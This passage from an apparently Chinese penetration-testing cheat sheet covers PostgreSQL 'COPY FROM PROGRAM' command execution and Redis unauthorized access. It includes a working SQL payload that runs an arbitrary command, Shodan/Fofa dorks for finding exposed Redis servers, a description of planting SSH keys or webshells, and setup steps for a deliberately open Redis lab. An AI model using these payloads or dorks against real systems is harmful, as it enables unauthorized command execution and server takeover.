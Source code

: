     PostgreSQL 其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

- 相关文章
    - [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

- POC | Payload | exp
    ```sql
    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;
    ```

---

## Redis

> shodan : "product:Redis"
> shodan : product:"Redis key-value store"

> fofa : protocol="redis"

**相关文章**
- [细数 redis 的几种 getshell 方法](http://b1ue.cn/archives/318.html)
- [Redis 常见漏洞利用方法总结](https://mp.weixin.qq.com/s/JMGD-xUwu6bw9Uh7IKcl1A)
- [【创宇小课堂】渗透测试-Redis未授权访问漏洞利用](https://mp.weixin.qq.com/s/SG_5lXOFa0QSxdCUZVI9QQ)

**未授权访问漏洞**
- 概述

    Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的 ssh 公钥写入目标服务器的 `/root/.ssh` 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用 ssh 服务登录目标服务器、添加计划任务、写入 Webshell 等操作。

- 相关文章
    - [redis未授权访问漏洞利用总结](https://p0sec.net/index.php/archives/69/)
    - [Redis 未授权访问漏洞利用分析](https://hellohxk.com/blog/redis-unauthorized-vulnerability/)
    - [redis未授权访问与ssrf利用](https://www.kingkk.com/2018/08/redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E4%B8%8Essrf%E5%88%A9%E7%94%A8/)
    - [Hackredis Enhanced Edition Script](https://joychou.org/web/hackredis-enhanced-edition-script.html#directory092928099425939341)

- 搭建环境
    ```bash
    wget http://download.redis.io/releases/redis-3.2.0.tar.gz
    tar xzf redis-3.2.0.tar.gz
    cd redis-3.2.0
    make
    ```
    ```vim
    vim redis.conf

    # bind 127.0.0.1
    protected-mode no
    ```
    ```bash
    ./src/redis-server redis.conf
    ```
